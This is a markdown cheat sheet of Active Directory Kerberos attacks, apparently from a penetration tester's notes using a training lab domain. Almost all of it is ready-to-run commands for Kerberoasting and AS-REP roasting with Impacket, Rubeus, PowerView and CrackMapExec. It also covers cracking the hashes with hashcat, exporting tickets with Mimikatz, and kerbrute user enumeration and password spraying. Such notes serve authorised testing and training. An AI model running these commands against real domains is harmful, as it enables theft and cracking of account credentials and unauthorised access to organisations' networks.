

#ad #kerberos #kerberoasting #asreproast

# Kerberoasting & AS-REP Roasting

Request/crack service (TGS-REP) and pre-auth-disabled (AS-REP) hashes. Related: [kerberos-tickets](kerberos-tickets.md) · [kerberos-delegation](kerberos-delegation.md) · [enumeration](enumeration.md) · [NetExec](NetExec.md) · [hashcat](../Passwords/hashcat.md)

## Contents
- [Kerberoasting (SPN accounts)](#kerberoasting-spn-accounts)
- [AS-REP Roasting (DONT_REQ_PREAUTH)](#as-rep-roasting-dont_req_preauth)
- [Via CrackMapExec (LDAP)](#via-crackmapexec-ldap)
- [Impacket GetUserSPNs (full workflow)](#impacket-getuserspns-full-workflow)
- [Windows: Rubeus](#windows-rubeus)
- [Windows: PowerView / setspn (manual)](#windows-powerview--setspn-manual)
- [User Enumeration / Spraying (Kerberos)](#user-enumeration--spraying-kerberos)

## Roast Flow



## Kerberoasting (SPN accounts)
```powershell
Invoke-Kerberoast
```
Get Kerberoastable accounts & hashes (Windows, PowerView/Empire).

```bash
GetUserSPNs.py inlanefreight.local/pixis -request
```
Get Kerberoastable accounts & hashes (Linux, Impacket).

```bash
hashcat -m 13100 kerberoasting.out /usr/share/wordlists/rockyou.txt
```
Crack TGS-REP (etype 23) Kerberoast hashes.

## AS-REP Roasting (DONT_REQ_PREAUTH)
```powershell
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```
Find AS-REP roastable accounts (Windows, PowerView).

```powershell
.\SharpView.exe Get-DomainUser -KerberosPreauthNotRequired
```
Find AS-REP roastable accounts (SharpView).

```bash
GetNPUsers.py inlanefreight.local/ -usersfile users.txt -no-pass -request
```
Get AS-REP roastable hashes (Linux, Impacket).

```bash
hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt
```
Crack AS-REP (etype 23) hashes.

## Via CrackMapExec (LDAP)
```bash
cme ldap <target_fqdn> -u <u> -p <p> --kerberoasting kerberoasting.out
```
Retrieve TGS-REP hashes (Kerberoasting).

```bash
cme ldap <target_fqdn> -u <u> -p <p> --asreproast asreproast.out
```
Retrieve AS-REP etype 23 hashes.

## Impacket GetUserSPNs (full workflow)
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday
```
List SPNs on the domain.

```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs
```
Request a TGS for one account and save it.

```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```
Crack the saved ticket.

## Windows: Rubeus
```cmd
.\Rubeus.exe kerberoast /stats
```
Show Kerberoast statistics for the domain.

```cmd
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
Roast only accounts with adminCount=1.

```cmd
.\Rubeus.exe kerberoast /user:testspn /nowrap
```
Roast a specific account.

## Windows: PowerView / setspn (manual)
```cmd
setspn.exe -Q */*
```
Enumerate all SPNs in the domain.

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
Request and format a TGS for Hashcat (PowerView).

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
Roast all SPN accounts and export to CSV.

```cmd
mimikatz # kerberos::list /export
```
Export TGS tickets from memory to .kirbi (Mimikatz).

```bash
python2.7 kirbi2john.py sqldev.kirbi
```
Convert a .kirbi ticket for cracking.

## User Enumeration / Spraying (Kerberos)
```bash
kerbrute userenum users.txt --dc dc01.inlanefreight.local -d inlanefreight.local
```
Enumerate valid user accounts via Kerberos.

```bash
kerbrute passwordspray users.txt inlanefreight2020 --dc dc01.inlanefreight.local -d inlanefreight.local
```
Password spray via TGT requests. See [password-attacks](../Passwords/password-attacks.md).
